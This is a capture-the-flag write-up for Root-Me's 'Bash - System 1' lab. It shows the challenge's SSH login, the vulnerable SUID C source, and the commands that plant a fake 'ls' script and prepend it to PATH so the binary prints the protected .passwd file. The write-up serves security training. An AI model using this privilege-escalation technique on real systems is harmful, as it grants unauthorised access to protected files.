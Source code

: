 ### Challenge Documentation: Bash - System 1

**Category:** Root-Me / App-Script

**Link:** [Bash - System 1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)  

**Objective:**
The goal of this challenge is to exploit a SUID binary to access the hidden password file located at `/challenge/app-script/ch11/.passwd`.

#### 1. **Initial Setup**

The challenge provides access to a remote server with the following SSH credentials:
- **Host**: `challenge02.root-me.org`
- **Port**: `2222`
- **Username**: `app-script-ch11`
- **Password**: `app-script-ch11`

##### **Connection Command**
```bash
ssh -p 2222 app-script-ch11@challenge02.root-me.org
```

#### 2. **File Analysis**

Upon connecting to the server, list the contents of the challenge directory:
```bash
ls -l /challenge/app-script/ch11/
```

**Output:**
```
total 16
-r-sr-x--- 1 app-script-ch11-cracked app-script-ch11 7252 Dec 10  2021 ch11
-r--r----- 1 app-script-ch11-cracked app-script-ch11  187 Dec 10  2021 ch11.c
-r--r----- 1 app-script-ch11-cracked app-script-ch11  494 Dec 10  2021 Makefile
```

##### Key Observations:
- `ch11` is the executable binary with **SUID permissions** (`r-s`), meaning it runs with elevated privileges.
- `ch11.c` is the source code for the binary (read-only access).

#### 3. **Understanding the Vulnerability**

The provided source code (`ch11.c`) contains the following:
```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

##### Analysis:
- The `system()` function executes the `ls` command on the `.passwd` file.
- Since the program runs with elevated privileges due to SUID, **we can hijack the `ls` command** by modifying the `PATH` environment variable.

#### 4. **Exploitation Steps**

##### Step 1: Create a Malicious `ls` Script
The idea is to replace the `ls` command with a custom script that uses `cat` to print the contents of the `.passwd` file.

Execute the following commands:
```bash
mkdir /tmp/mydir
echo -e '#!/bin/bash\n/bin/cat /challenge/app-script/ch11/.passwd' > /tmp/mydir/ls
chmod +x /tmp/mydir/ls
```

##### Step 2: Modify the `PATH` Variable
Prepend the directory containing the malicious script (`/tmp/mydir`) to the `PATH` environment variable:
```bash
export PATH=/tmp/mydir:$PATH
```

##### Step 3: Run the SUID Binary
Execute the SUID binary `ch11`:
```bash
/challenge/app-script/ch11/ch11
```

#### 5. **Output**

The SUID binary executes our malicious `ls` script, which uses `cat` to display the content of `.passwd`. The output is the flag for the challenge :
```
***************************
```

#### 6. **Summary of Commands**

Here is the complete set of commands used to solve the challenge:
```bash
ssh -p 2222 app-script-ch11@challenge02.root-me.org

# Analyze the directory
ls -l /challenge/app-script/ch11/

# Create the malicious 'ls' script
mkdir /tmp/mydir
echo -e '#!/bin/bash\n/bin/cat /challenge/app-script/ch11/.passwd' > /tmp/mydir/ls
chmod +x /tmp/mydir/ls

# Modify the PATH variable
export PATH=/tmp/mydir:$PATH

# Run the SUID binary
/challenge/app-script/ch11/ch11
```

#### 7. **Conclusion**

By hijacking the `ls` command using a custom script, we exploited the vulnerable SUID binary to print the contents of the `.passwd` file.


